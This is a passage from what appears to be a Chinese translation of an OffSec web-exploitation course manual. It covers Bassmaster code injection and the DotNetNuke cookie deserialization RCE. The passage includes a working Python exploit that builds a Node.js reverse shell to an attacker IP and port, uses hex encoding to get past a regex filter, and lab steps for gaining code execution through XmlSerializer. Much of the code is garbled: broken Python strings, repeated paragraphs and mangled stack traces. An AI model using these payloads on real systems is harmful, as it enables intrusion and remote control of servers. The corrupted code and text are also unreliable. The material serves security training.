request_3 = {'method":"get","path":"/item$1.id;%s"} % cmd

json = {'requests":"%s,%s,%s"} % (request_1, request_2, request_3)

r = requests.post(target, json=json)

print(r.text)
```

Listing 230 - 根据 `~/bassmaster/examples/batch.js` 中的注释运行请求的脚本

## 高级Web攻击与利用


```
student@bassmaster: ~bassmaster

File Edit View Search Terminal Help

student@bassmaster:~/bassmaster nodejs examples/batch.js

Server started.

Executing: id;var net = require('net'),sh = require('child_process').exec('
```

图 122：调试获取反向 Shell 的失败尝试

这看起来完全不像完整的代码注入！我们的有效负载（payload）似乎在第一个斜杠处被截断了。然而，如果你还记得那个过滤我们输出的正则表达式，那么这个结果其实是合理的。让我们把整个有效负载提交给正则检查器，看看解析是如何进行的的。

| 正则表达式 | 2 处匹配 (-1ms) | 解释 |
| --- | --- | --- |
| `/\?(:V|\(\|\($d|\w)\)?\([\w]+\))*/` | `/ gn` | 匹配信息 |
| 测试字符串 | | 匹配1 完整匹配 61-65 `'/bin'` |
| `var net = require('net').sh sh =` | `n/a 'bin'` | |
| `require('child_process').exec('/bin/bash'); var client` | 组 2 | |
| `new = net.Socket();client.connect(3555,` | | `n/a '/bin/bash'; var client` |
| `'192.168.2.209', function() {` | | `-new = net.Socket();` |
| `{client.stdout=sh.stdin.pipe(client);sh.stderr=sh.stdout.pipe(client);` | | `};` |
| `.pipe(client)); });` | | `function (client)` |

图 123：正则检查器运行了 `Node.js` 反向 Shell

我们可以看到，该正则表达式显式地寻找正斜杠并据此对输入进行分组。同样，这是合理的，因为 Bassmaster 插件期望的输入实际上是路径。

由于我们的有效负载包含正斜杠，`/bin/bash` 被正则表达式截断了。这意味着我们需要弄清楚如何克服这种字符限制。幸运的是，JavaScript 字符串可以通过由十六编码字符以及其他编码组合而设计。因此，我们应该能够对正斜杠进行十六编码，并绕过正则解析的限制。以下证明将十六编码方案与 `cmd` 字符串连接。

AWAE © 2019 Offsec Securities Ltd. 保留所有权利。213

# 攻击性安全

高级Web攻击与利用

```python
import requests, sys

if len(sys.argv) != 4:
    print("(usage: %s <target> attacking address <attacking port>\n") % sys.argv[0])
    sys.exit(-1)

target = "http://%s:8080/batch" % sys.argv[1]

cmd = "\\x22bin\\x22bash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = {"method": "get", "path":"/profile"}
request_2 = {"method": "get", "path":"/child_process/%s"}

shell = ' var net = require("net");, sh = require("child_process").exec('%s'); ' % cmd

shell += ' var client = new net.Socket();
shell += ' client.connect(%s, %s, function() {\nshell += ' client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)

shell += ' sh.stderr.pipe(client);
shell += '});

request_3 = {"method": "get", "path":"/item/1.id?%s"} % shell

json = {"requests": [%s, %s]} % (request_1, request_2, request_3)

r = requests.post(target, json)
```

列表 236 - 通过十六编码避免字符限制

剩下的就是测试我们新的有效负载了。我们使用 `netcat` 监听器，并将 `IP` 和端口传递给我们的脚本。



图 124：Bassmaster 代码注入导致反向 Shell

版权 © 2019 Offsec Services Ltd. 保留所有权利。214

# 攻击性安全

高级Web攻击与利用

太棒了！我们的字符规避成功了，我们获得了反向 Shell！

### 6.6.1 练习

重复本模块概述的步骤并获取反向 Shell。

### 6.6.2 额外

学生用户目录下包含一个名为 `bassmaster_extile` 的子目录。在该目录中，我们稍微修改了 Bassmaster 的原始代码以利用漏洞。

从额外目录启动 `NodeJS` `batch.js` 并利用新的限制。

```bash
student@bassmaster:-$ cd bassmaster_extile
student@bassmaster:-/bassmaster_extile$ nodejs examples/batch.js
Server started.
```


# 6.7 总结

在本模块中，我们分析了一个漏洞。具体来说，我们研究了如何绕过限制来实现代码执行。我们证明了使用十六编码如何绕过寻找特定字符的过滤器。

# 攻击性安全

高级Web攻击与利用

# 7. DotNuke Cookie 序列化 RCE

## 7.1 概述

在本节中，我们将探讨 `DotNuke` (`DNN`) 中的序列化漏洞。重点是用户控制的序列化数据如何导致远程代码执行。

## 7.2 入门

在进入分析之前，我们需要考虑序列化的基本概念。这是将对象转换为可以存储或传输的格式的过程。

## 7.3 引言

序列化和反序列化的概念在计算机科学领域已存在多年。反序列化是从存储格式构造对象。

## 7.4 序列化基础

在进入漏洞之前，我们首先需要考虑一些基本概念。序列化对象有多种格式可用。对于本模块而言，我们将关注 `XmlSerializer`。

### 7.4.1 `XmlSerializer` 的局限性

在继续之前，我们需要突出 `XmlSerializer` 类的一些特征。它只能序列化对象的公共属性和字段。此外，由于无法序列化抽象类，它支持的对象范围较窄。最后，序列化对象的类型必须是 `XmlSerializer` 实例已知的。

### 7.4.2 基础 `XmlSerializer` 示例

我们的第一个示例将创建两个应用程序。一个创建一个对象实例，设置其属性，最后通过 `XmlSerializer` 类将其序列化为 XML 文件。另一个应用程序将读取存储序列化对象的文件并进行反序列化。


以下列表显示了序列化应用程序的代码。

> 列表 237 - 启动额外的 NodeJS

```csharp
01: using System;
02: using System.IO;
03: using System.XmlSerialization;
04:
05: namespace BasicXMLSerializer
06: {
07:     class Program
08:     {
09:         static void Main(string[] args)
10:         {
11:             MyConsoleText myText = new MyConsoleText();
12:             myText.text = args[0];
13:             MySerializer(myText);
14:         }
15: 
16:         static void MySerializer(MyConsoleText txt)
17:         {
18:             var ser = new XmlSerializer(typeof(MyConsoleText));
19:             TextWriter writer = new
20:             StreamWriter("C:\Users\Public\basicXML.txt");
21:             ser.Serialize(writer, txt);
22:             writer.Close();
23:         }
24:     }
25: }
26:
27: public class MyConsoleText
28: {
29:     private String _text;
30:     public String text
31:     {
32:         get { return _text; }
33:         set { _text = value; Console.WriteLine("My first console text class says: " + _text); }
34:     }
35: }
```

> 列表 238 - 一个非常基础的 `XmlSerializer`应用程序。

`列表 238` 代码中有几点需要强调。我们的命名空间从第 25 行开始包含 `MyConsoleText` 类的实现。当该类的对应的属性被赋值时，它会在控制台上打印出一个包含存储在其私有 `_text` 属性中字符串的句子。

在第 11-12 行，我们创建了 `MyConsoleText` 类的实例，并将其 `text` 属性设置为传递给命令行的字符串。最后，在第 18 行，我们创建了 `XmlSerializer` 类的实例，并在第 20 行，我们将我们的 `myText` 对象序列化并保存到 `C:\Users\Public\basicXML.txt` 文件中。

让我们快速查看反序列化应用程序。

```csharp
01: using System.IO;
02: using System.Xml.Serialization;
03: using BasicXMLSerializer;
04:
05: namespace BasicXMLSerializer
06: {
07:     class Program
08:     {
09:         static void Main(string[] args)
10:        {
11:             var fileStream = new FileStream(args[0], FileMode.Open,
12:             FileAccess.Read);
13:             var reader = new StreamReader(fileStream);
14:             XmlSerializer serializer = new XmlSerializer(typeof(MyConsoleText));
15:             serializer.Deserialize(reader);
16:         }
17:     }
18: }
```

> 列表 239 - 非常基础的反序列化应用程序

反序列化应用程序使用 `XmlSerializer` 类的实例并将输入文件的内容反序列化为对象的实例。需要注意的是，`XmlSerializer` 需要知道要反序列化的对象类型。由于反序列化应用程序的命名空间没有定义 `MyConsoleText` 类，我们需要在 Visual Studio 中引用 `BasicXMLSerializer` 程序集（图 125）。



> 图 125: 项目中的 `BasicXMLSerializer` 可执行文件

要为目标执行文件添加引用，可以使用 Visual Studio 中的项目菜单并使用“添加引用”选项。这将弹出一个对话框，我们可以浏览到目标执行文件并将其添加到项目中。`BasicXMLSerializer` 命名空间可以在代码第 3 行所示。

# OFFENSIVE SECURITY

www.offensivesec.com

在测试我们的应用程序之前，我们需要编译它们。为了这样做，可以使用 Visual Studio 中的“生成 > 生成解决方案”选项。


> 图 126: 编译源代码

编译完成后，我们首先运行序列化应用程序，向其传递一个字符串到命令行。

```text
C:\Users\Administrator\source\BasicXMLSerializer\BasicXMLSerializer\bin\x64\Debug\BasicXMLSerializer.exe>BasicXMLSerializer.exe "Hello AWAE"
My first console text says: Hello AWAE

C:\Users\Administrator\source\BasicXMLSerializer\BasicXMLSerializer\bin\x64\Debug>
```

运行应用程序后，序列化对象所示：

```xml
<?xml version="1.0" encoding="utf-8"?>
<MyConsoleText xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <text>Hello AWAE</text>
</MyConsoleText>
```

> 列表 241 - 序列化对象

最后，我们通过运行 `BasicDeserializer.exe` 反序列化我们的对象。

```xml
<?xml version="1.0" encoding="utf-8"?>
<MyConsoleText xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <text>Hello AWAE</text>
</MyConsoleText>
```

> 列表 242 - 反序列化

# 高级网络攻击与利用


```cs
58:
59:    public class MySecondConsoleText
60:    {
61:        private String _text;
62:
63:        public String text
64:
        {
65:            get { return _text; }
66:            set { _text = value; Console.WriteLine("My second console text \
67:        says(" + _text + ")"); } }
68:        }
69:    }
```

> 列表 244 - 一个多功能的 `XmlSerializer` 使用用例。

这里的思想与我们的基础示例非常相似。我们没有序列化单一类型的对象，而是赋予了应用程序序列化另一个类的能力，即 `MySecondConsoleText`，该类从第 59 行开始定义。我们可以在第 17 行和第 23 行看到我们这两个类的实例化，这是基于命令行传递的用户控制的参数的。

此应用程序最有趣的部分位于第 29 行开始的 `CustomSerializer` 函数中。具体来说，我们决定通过一个名为 "item" 的自定义 XML 标签来传递有关被序列化对象类型的信息。这在第 35 行可以看到。此外，请注意在第 37 行，我们在实例化 `XmlSerializer` 类时，并没有硬编码我们正在序列化的对象类型。相反，我们正在使用对象上的 `Get` 函数来动态获取信息。

序列化后的对象将被封装在一个自定义的 XML 文档中并写入磁盘。

现在让我们来看看反序列化应用程序将如何处理这些对象。

```cs
01:using System;
02:using System.Diagnostics;
03:using System.IO;
04:using System.Xml;
05:using System.Xml.Serialization;
06:
07:namespace MultiXMLDeserializer
08: {
09:    class Program
10:    {
11:        static void Main(string[] args)
12:        {
13:            String xml = File.ReadAllText(args[0]);
14:            CustomDeserializer(xml);
15:        }
16:
17:        static void CustomDeserializer(string myXmlString)
18:        {
19:            XmlDocument xmlDocument = new XmlDocument();
```

> 列表 245 - 一个更通用的反序列化用例

我们的新序列化器有两个不同的可序列化类，因此我们的新反序列化应用程序必须感知这些类，以便正确处理序列化对象。由于我们没有直接实例化这些类的实例，因此不需要包含 `using MultiXmlSerializer` 指令。尽管如此，我们仍然需要在 Visual Studio 项目中包含对该可执行文件的引用。


> 图 127：需要对一个带有目标类定义的可执行文件进行引用

然而，我们新应用程序中最有趣的部分可以在第 23-24 行（列表 245）看到。具体来说，我们的应用程序现在从 XML 文件中动态收集有关序列化对象类型的信息，并以此正确构造相应的 `XmlSerializer` 实例。

让我们在实践中看看。

```cmd
C:\Users\Administrator\source\repos\MultiXMLSerializer\MultiXMLSerializer\bin\x64\Debug>MultiXMLSerializer.exe "Serializing first class..." 1
My first console text class says says: Serializing first class...
```

```cmd
C:\Users\Administrator\source\repos\MultiXMLSerializer\MultiXMLSerializer\bin\x64\Debug>
```

> 列表 246 - 第一个示例类的序列化

这是我们生成的 XML 文件的样子（注意 "item" 节点）：

```xml
<customRootNode>
<item objectType="MultiXMLSerializer.MyFirstConsoleText, MultiXMLSerializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
<MyFirstConsoleText xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xxsd="http://www.w3.org/2001/XMLSchemaSchema">
<text>Serializing first class...</text>
</MyFirstConsoleText>
</item>
</customRootNode>
```

> 列表 247 - 生成的 XML 文件内容

最后，让我们看看反序列化这个对象时会发生什么。

```cmd
C:\Users\Administrator\source\repos\MultiXMLSerializer\MultiXMLSerializer\bin\x64\Debug>MultiXMLSerializer.exe "C:\Users\Public\multixml.txt"
My first console text class says: Serializing first class...
```

```cmd
C:\Users\Administrator\source\repos\MultiXMLSerializer\MultiXMLSerializer\bin\x64\Debug>
```

> 列表 248 - 第一个示例类的反序列化

此时此，理解以下内容至关重要：更改序列化对象的内容可能的，因此我们可以反序列化 `MySecondConsoleText` 的实例。为了实现这一点，我们的 XML 文件内容应该像如下：

```xml
<customRootNode>
<item objectType="MultiXMLSerializer.MySecondConsoleText, MultiXMLSerializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
<MyFirstConsoleText xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<text>Serializing first class...</text>
</MyFirstConsoleText>
</item>
</customRootNode>
```

> 列表 249 - 手动修改的 XML

如果我们反序列化这个对象，将会得到：

```cmd
C:\Users\Administrator\source\repos\MultiXMLSerializer\MultiXMLSerializer\bin\x64\Debug>MultiXMLSerializer.exe "C:\Users\Public\multixml.txt"
My first console text class says: Serializing first class...
```

> 列表 250 - 第二个类的反序列化

在此点，理解以下内容至关重要：可以更改序列化对象的内容，因此我们可以反序列化 `MySecondConsoleText` 的实例。为了实现这一点，我们的 XML 文件内容应该像如下：


# 高级网络攻击与利用

## 列表 251 - 反序列化应用程序

我们注意到已经将对象类型更改为 `ExecCMD`，并将文本标签重命名为 `cmd`。这与我们之前在 `ExecCMD` 类中看到的公共属性名对应。最后，我们将该值设置为我们想要启动的进程名称，在本例中为 `calc.exe`。如果我们再次运行我们的反序列化应用程序，将会看到以下内容：


正如我们在这个相当平易的例子中再次看到的，只要我们能够获取所需的类信息，并且目标类可以被 `XmlSerializer` 反序列化，我们就可以实例化原始开发者可能从未意过要被反序列化的对象。这是可能的，因为在我们目前所检查的代码中，在用户提供的输入被 `XmlSerializer` 处理之前，没有实现任何对象类型验证。

在某些现实案例中，这种类型的漏洞可能会导致严重的后果。我们将详细查看一个涉及 `DotNetNuke` 平台的案例。

### 7.4.7 练习

重复上一节中列出的步骤。反序列化一个将产生 `Notepad.exe` 实例的对象。

## DotNetNuke 漏洞分析

现在我们已经有了关于 `XmlSerializer` 的基础知识，可以开始分析由 Muñoz 和 Mirosh 发现的实际 `DotNetNuke` 漏洞。

根据报告，该漏洞存在于 `DNNPersonalization` cookie 的处理中，正如名称所示，它与用户配置直接相关。有趣的是，这种漏洞可以在无需验证的情况下触发。

### 7.5.1 漏洞概述

该漏洞的入口点位于 `LoadProfile` 函数中，该函数实现在 `DotNetNuke.dll` 模块中。虽然 `DNN` 的源代码公开可用，但为了我们的分析，我们使用 `dnSpy` 调试器，因为我们稍后需要它来跟踪程序的执行。

同样，在这种情况下，我们可以使用 `DNN` 平台的官方源码，因为它是公开的，但在大多数现实场景中情况并非如此。因此，使用 `dnSpy` 进行反编译和调试将帮助我们更熟悉这些情况下的典型工作流。

开始开始，我们需要使用 `dnSpy` 的 x64 版本，因为我们稍后要调试的 `w3wp.exe` 进程位于我们的 `DotNetNuke.dll` 文件上，我们可以只需通过 `dnSpy` 的 `File > Open` 菜单浏览到它，或从资源管理器将其拖入 `dnSpy` 窗口。


图 129：`DotNetNuke.dll` 的分解

我们现在可以导航到位于 `DotNetNuke.Services.Personalization.PersonalizationController` 命名下的目标 `LoadProfile` 函数。


图 130：导航到 `LoadProfile` 函数

```csharp
LoadProfile(int userId, Personalization personalization)
{
    // DotNet.Services.Personalization.PersonalizationController
    public PersonalizationInfo LoadProfile(int userId, string portalId)
    {
        PersonalizationInfo personalizationInfo = new PersonalizationInfo()
        {
            UserId = userId;
            PortalId = portalId;
            IsPostified = false;
        }
        string text = null;
        if (userId != null)
        {
            string key = string.format("UserPersonalization [{0}]", portalId, userId);
            text = (string)Cache.GetOrAdd(key, CacheItemPriority.Normal, new object[] {});
        }
        else
        {
            HttpContext httpContext = HttpContext.Context;
            if (httpContext != null && httpContext.Request.Cookies["DMPersonalization"] != null)
            {
                text = httpContext.Request.Cookies["DMPersonalization"].Value;
            }
            personalizationInfo.Profile = (string.IsNullOrEmpty(text) ? new Hashtable() : Globals.DeserializeHashTable(text));
            return personalizationInfo;
    }
}
```

图 131：`DNN` 漏洞的入口点

在图 131 中，我们可以看到 `dnSpy` 中显示的 `LoadProfile` 实现。需要注意的是，正如 Muñoz 和 Mirosh 演示中指出的，每当我们访问 `DNN` 应用程序中不存在的页面时，该函数就可以被触发。我们稍后将确认这一点。

在第 24 行，函数检查传入请求中是否存在 `DNNPersonalization` cookie。如果 cookie 存在，其值被赋值给第 26 行的本地 `text` 字符串。然后，在第 29 行，该变量作为参数传递给 `DeserializeHashTable` 函数。

如果我们遵循这一执行路径，我们将看到 `DeserializeHashTable` 函数的以下实现：

```csharp
2457 // Token: 0x060040C RID: 16428 RVA: 0x00E7174 File Offset: 0x00E5374
2458 public static Hashtable DeserializeXml(string Source)
2459 {
2460     return XmlUtils.DeserializeHashTable(Source, "profile");
2461 }
```

图 132：`DeserializeXml` 的实现

> ⁷³ [https://github.com/0xd4d/dnSpy/wiki/Making-an-Image-Easy-to-Debug](https://github.com/0xd4d/dnSpy/wiki/Making-an-Image-Easy-to-Debug)
>
> ⁷⁴ [https://docs.microsoft.com/en-us/api/system.msdn.debuggableattribute.debuggingmodes?redirectfrom=MSDN&view=netframework-4.7.2](https://docs.microsoft.com/en-us/api/system.msdn.debuggableattribute.debuggingmodes?redirectfrom=MSDN&view=netframework-4.7.2)

### 7.5.2 调试 DotNetNuke

#### 程序集属性

调试 .NET 应用程序由于运行时应用的优化，可能会变得有些棘手。这些优化在调试会话中的表现之一是阻止我们在任意位置设置断点。也就是说，调试器无法将断点绑定到特定的代码行。

由于此，除了无法在想要的地方中断外，有时还无法查看该处的局部变量值。这使得调试 .NET 程序比我们想象的要困难。

幸运的是，有一种方法可以修改经过优化的目标文件。具体来说，软件是以 `Release` 版本编译并发布的，而不是 `Debug`。因此，程序集属性类似于：

```csharp
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolSequencePoints)]
```

列表 253：`Release` 版本的 .NET 程序集

为了启用调试体验，即减少运行时执行的优化，我们可以将其更改为如下形式：

```csharp
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.DisableOptimizations.Default | DebuggableAttribute.DebuggingModes.IgnoreSymbolSequencePoints | DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]
```

列表 254：特定的程序集可以控制运行时应用的优化

一如既往，在我们进行任何操作之前，我们应该对要操作的文件进行备份。然后我们可以使用 `dnSpy` 打开目标程序集，在程序集管理器中右键点击其名称，并从上下文菜单中选择“编辑程序集属性 (C#)”（图 134）。该选项也可以通过“编辑”菜单访问。


图 134：访问编辑程序集属性菜单

点击该选项将打开一个程序集属性的编辑器。


图 135：程序集属性

在这里，我们需要将列表 253 提到的属性替换为列表 254 中找到的内容。


图 136：编辑程序集属性

一旦替换了相关的程序集属性，我们只需点击 `Compile`（编译）按钮，这将关闭编辑器窗口。最后，我们通过点击 `File > Save Module`（文件 > 保存模块）来保存我们的程序集，这将显示以下对话框：


图 137：保存编辑后的程序集

我们可以接受默认值，编辑后的程序集将覆盖原始文件。此时，我们就可以开始使用 `dnSpy` 调试器了。


#### 练习

更改 `DotNetNuke.dll` 的属性，并确保能够正确重新编译并保存程序集。

## 使用 dnSpy

正如我们在之前的模块中所做的那样，我们将再次依赖 `Burp` 代理来精确控制我们的有效负载。请注意，实验室虚拟机上的浏览器代理设置已经配置好。因此，在浏览 `DNN` 网页之前，请确保 `BurpSuite` 已经运行。

此外，我们还将使用 `dnSpy` 调试器来查看我们的有效负载是如何被处理的。虽然我们已经熟悉 `Burp` 及其设置，但我们仍然花一点时间研究 `dnSpy` 的机制。请参考相关视频以详细查看后续过程。

为了调试 `DNN`，我们需要将调试器（`Debug > Attach` 菜单）附加到 `w3wp.exe`。这是我们的 `DNN` 实例正在运行的 `IIS` 工作进程。请注意，如果你无法在 `dnSpy` 的 `Attach to Process`（附加到进程）对话框（图 138）中看到该进程，只需使用网络浏览器调试 `DNN` 实例。这将触发 `IIS` 启动适当的工作进程。之后，点击 `Refresh`（刷新）按钮，你就能在对话框中看到 `w3wp.exe` 实例。


图 138：调试 `w3wp.exe` 进程

一旦附加到进程，我们需要做的第一件事是使用相应的 `Debug` 菜单选项或快捷菜单按钮暂停其执行。我们需要访问 `Debug > Windows > Modules` 来列出 `w3wp.exe` 进程加载的所有模块。

|  | 已优化 (`Optimized`) | 动态 (`Dynamic`) | 内存 (`InMemory`) | 顺序 (`Order`) | 时间戳 (`Timestamp`) | 地址 (`Address`) | 进程 (`Process`) | 程序域 (`AppDomain`) |
|---|---|---|---|---|---|---|---|---|
| `System.Web.Helpers.dll` | 是 | 否 | 106 | 3 | 0.20180 | 2019-01-24 15:22:13 | 00000018-b000-0000-a000-000000000000 | `w3wp.exe` | [1]/W35C... |
| `System.Web.Http.dll` | 是 | 否 | 109 | 5 | 5.20180 | 2019-01-28 15:50:54 | 00000011-a000-0000-a000-000000000000 | `w3wp.exe` | [1]/W35C... |


| System.Web.Host.dll | 是 | 否 | 108 | 4 | 5.20180 | 2019-01-23 15:45:05 | 00000011-a000-0000-a000-000000000000 | w3wp.exe | [1]/W35C... |
| System.Web.Web.dll | 是 | 否 | 111 | 1 | 5.12521 | 2019-08-21 12:22:27 | 0000001a-b000-0000-a000-000000000000 | w3wp.exe | [1]/W35C... |
| System.Web.Pages.dll | 是 | 否 | 110 | 2 | 3.20180 | 2019-01-24 15:22:13 | 0000001f-b000-0000-a000-000000000000 | w3wp.exe | [1]/W35C... |
| System.Web.Web.dll | 是 | 否 | 114 | 6 | 3.20180 | 2019-01-24 19:14:59 | 0000001f-b000-0000-a000-000000000000 | w3wp.exe | [1]/W35C... |

图 139：加载模块列表

通过右键点击列出的任何模块，可以“Open Modules”（打开模块）。这将在程序资源管理器面板中加载所有可用模块，允许我们轻松访问想要调查的类。


图 140：将所有模块加载到 dnSpy

一旦加载了模块，我们可以导航到`DotNetNuke.dll`程序中`DotNetNuke.Personalization`命名空间下的`LoadProfile(int,int)`函数实现。我们可以在第 24 行设置断点，从那里开始分析。

AWAE 版权 © 2019 OffSec Security Ltd. 保留所有权利。237

## 高级Web攻击与利用


我们准备好发送第一个概念验证（PoC）HTTP 请求。我们可以通过从`Burp`历史记录中选择未身份验证的请求并发送到`Repeater`（重放器）来实现，在请求中我们还需要将`URL`路径改为。我们的 PoC 请求看起来如下。


如果一切进展顺利，我们在请求后应该会在`dnSpy`中触发断点，如下：

# 攻击性安全 (OFFENSIVE SECURITY)

```c
httpContext httpContext = HttpContext.Current;
if (httpContext != null && httpContext.Request.Cookies["Personalization"] != null)
{
    string text = httpContext.Request.Cookies["Personalization"].Value;
    personalizationInfo.Profile = (string.IsNullOrEmpty(text) ? new Hashtable() : Globals.DeserializeHashtXml(text));
    return personalizationInfo;
}
```

图 143：我们的第一个断点被触发

### 7.5.3 练习

在漏洞`LoadProfile`函数上设置断点后，按照上一节描述发送概念验证请求，并确保到达那里。

### 7.5.4 我们是如何到达这里的

尽管我们盲目测试了原始建议并验证了确实可以触发`LoadProfile`函数，但研究人员仍然缺少一些信息。具体来说，从未身份验证的角度看到任何形式的个性化数据被处理是不寻。此外，我们想知道触发漏洞的`HTTP`请求处理过程中涉及了哪些函数。因此，我们挖得更深。

一旦命中初始断点，我们可以看到以下调用栈：

## 高级Web攻击与利用

# PersonalizationController

```csharp
if (httpContext != null && httpContext.Request["Personalization"] != null)
{
    var text = httpContext.Request["Personalization"].Value;

    personalization = new PersonalizationProfile(string.IsNullOrEmpty(text) ? new Hashtable() : Global.Deserialize.HashTable(text));
    return personalization;
}
```

# 堆栈跟踪 (Stack Trace)

```
DohNet.Web.Services.PersonalizationController.Load(Object url, Int64 length) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0d2b38)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F03a6)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0f2)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0d2)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0c3)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0f7)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0a9)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0f1)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0e1)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0d5)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0b7)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0f4)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0a7)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0b5)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0e2)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0d4)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0a8)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0b6)
DohNet.Web.Services.PersonalizationController.Load(Object url) at DohNet.Web.Services.PersonalizationController.Load(Object url) (0x00007FFC2732F0c9)
```

如果我们从 144 中的堆栈跟踪中回溯几步，就会得到`PortalSettings`类`UserMode`的访问器。此访问函数的实现稍微复杂，如下所示。


## 高级Web攻击与利用


# 高级 Web 攻击与利用

```sharp
/// <summary>当在派生类中重写此方法时，此基类会在调用 <see
/// cref="System.Windows.Data.DataProvider.Initialize()"/> 或 <see
/// cref="System.Windows.Data.DataProvider.Refresh()"/> 后调用此方法。如果刷新延迟或禁用加载，则基类将延迟该调用。</summary>
/// Token: 0x00000000 to 0x00004E8 File Offset: 0x00004E8
protected virtual void BeginQuery()
{
```

图 152：BeginQuery 的实现

这似乎已经定论了，但我们需要意识到`ObjectDataProvider`继承自`DataProvider`类，这正是`dnSpy`引导我们去往的地方。因此，我们需要确保导航到`ObjectDataProvider`类中重写了继承函数的实现部分。


图 153：重写的`BeginQuery`函数实现

在`BeginQuery`的末尾（图 153），我们可以看到另一个调用，具体是对`QueryWorker`方法的调用。像之前一样，我们将继续追踪它。

## 攻击性安全

高级 Web 攻击与利用

## ObjectDataProvider

```csharp
// Token: 0x0001C3F RID: 7231 RVA: 0x00084E08 File Offset: 0x00083008
private void QueryWorkObject(object obj)
{
    object obj2 = null;
    Exception ex = null;
    if (this._method != ObjectDataProvider.Source.NoSource || this._objectType == null)
    {
        if (TraceData.IsEnabled)
        {
            TraceData.Trace(TraceEventType.Error, TraceData.DataProviderHasNoSource());
        }
        ex = new InvalidOperationException(SR.Get("ObjectDataProviderHasNoSource"));
    }
    else
    {
        Exception ex2 = null;
        if (this._newInstance && this._objectType == ObjectDataProvider.Source.FromType)
        {
            ConstructorInfo[] constructors = this._objectType.GetConstructors();
            if (constructors.Length == 0)
            {
                this._objectInstance = this.CreateInstance(out ex2);
                this._newInstance = false;
            }
            if (string.IsNullOrEmpty(this.MethodName))
            {
                obj2 = this._objectInstance;
            }
            else
            {
                obj2 = this._objectInstance.InvokeMethodInstance(out ex);
                if (ex == null && ex2 != null)
                {
                    ex = ex2;
                }
            }
        }
        if (TraceData.IsExtendedTraceEnabled(this, TraceDataLevel.Attach))
        {
            TraceData.Trace(TraceEventType.Warning, TraceData.QueryFinished(new object[]{
                TraceData.Identify(this),
                base.Dispatcher.CheckAccess() ? "synchronous" : "asynchronous",
                TraceData.Identify(obj2),
            }));
        }
        TraceData.Identify(ex);
    }
    this.OnQueryFinished(obj2, ex, null);
```

图 154：QueryWork 函数实现

最后，在图 154 中，我们到达第 300 行对`InvokeMethodOnInstance`的调用。这正是对象内目标方法被注入的点。

让我们看看是否能在一个简单的示例中验证这一调用链。

高级 Web 攻击与利用


### 7.6.3 `ObjectDataProvider` 实例的示例用法


# 高级 Web 攻击与利用

